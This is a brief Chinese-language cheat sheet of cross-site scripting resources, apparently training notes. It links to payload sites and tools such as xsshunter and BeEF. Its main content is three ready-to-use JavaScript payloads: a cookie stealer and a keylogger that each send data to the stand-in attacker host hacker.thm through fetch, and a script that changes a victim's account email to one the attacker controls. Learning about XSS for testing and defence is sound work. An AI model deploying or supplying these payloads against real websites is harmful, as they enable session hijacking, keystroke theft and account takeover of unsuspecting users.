 # 资源

## 服务器信息

* [端口扫描](http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) 一个迷你的本地端口扫描器
* [XSS-Payloads-com](http://www.xss-payloads.com/) 一个 XSS Payload 网站

## 用户信息获取

* BeFF XSS 渗透测试工具
*   会话窃取

    ```javascript
    <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
    ```
*   按键记录器

    * [XSS Keylogger](http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) 记录用户的所有击键

    ```javascript
    <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
    ```
*   逻辑 `修改用户邮箱`

    ```javascript
    <script>user.changeEmail('attacker@hacker.thm');</script>
    ```
* Bind XSS
  * [xsshunter](https://xsshunter.com/) Bind XSS 攻击工具，自动获取 COOKIE 、URL、页面内容

## 综合工具

* [XSS-Payloads-com](http://www.xss-payloads.com/) 一个 XSS Payload 网站
* BeFF XSS 渗透测试工具
